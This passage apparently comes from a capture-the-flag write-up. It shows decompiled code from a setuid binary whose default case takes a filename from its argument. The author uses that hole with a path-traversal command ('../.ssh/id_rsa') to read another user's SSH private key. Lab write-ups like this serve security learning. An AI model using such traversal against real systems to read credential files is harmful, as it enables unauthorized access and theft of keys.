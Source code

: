 ```

goto LAB_001015e1;

case 1:

strncpy(pcVar3,"create.sql",0x14);

break;

case 2:

strncpy(pcVar3,"populate.sql",0x14);

break;

case 3:

strncpy(pcVar3,"reset_password.sql",0x14);

break;

case 4:

strncpy(pcVar3,"clean.sql",0x14);

break;

default:

strncpy(pcVar3,*(char **)(param_2 + 0x10),0x14);
```

There is a 5 option on the binary

Input
`kali> ./execute_query 5`
output
`Segmentation fault (core dumped)`
Input
`kali> ./execute_query 5 ls`
Output
`File not readable or not found`

Looks like I can read files from the system and the owner of the binary is jack
`-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 execute_query`

Maybe I can read files from the jack's folders, some credentials, the port 22 is opened so maybe a id_rsa file exists on this machine. With prove and error I guess that the file is on the `/home/jack/documents` folder. So, to be able to see the credentials I most go to `../.ssh/id_rsa`

Input:
`./execute_query 5 ../.ssh/id_rsa`
